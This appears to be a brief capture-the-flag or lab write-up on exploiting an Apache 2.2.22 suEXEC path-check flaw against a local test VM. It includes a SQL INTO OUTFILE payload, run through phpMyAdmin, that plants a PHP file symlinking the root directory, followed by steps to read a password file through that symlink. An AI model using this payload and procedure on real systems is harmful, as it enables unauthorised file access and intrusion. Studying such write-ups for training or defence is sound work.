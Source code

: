 Apache is running with the version 2.2.22

After some research, we found this version is vulnerable. The suEXEC vulnerability is a path traversal. We can do a symlink with / and a php page to access a files the user www-data can read

Path checking code design error, subdirectory entry is determined via `strncmp()`, i.e. in addition to the directory `/var/www/html` described in the configuration, the check will also be successful for `/var/www/html_backup` or `/var/www/htmleditor`.

We can found an exploit here : exploit-db.com/exploits/27397

We can exploit it by uploading a PHP page (with a SQL request in phpmyadmin like in the writeup1)
```SQL
SELECT 1, '<?php symlink(\"/\", \"paths.php\");?>' INTO OUTFILE '/var/www/forum/templates_c/run.php'
```

1. https://192.168.56.104/phpmyadmin/index.php -> db phpmyadmin -> `localhost -  phpmyadmin -  pma_bookmark "Bookmarks"` -> execute the SQL request
2. open https://192.168.56.104/forum/templates_c/run.php
3. open https://192.168.56.104/forum/templates_c/paths.php
4. open `/home/LOOKATME/password` https://192.168.56.104/forum/templates_c/paths.php/home/LOOKATME/password
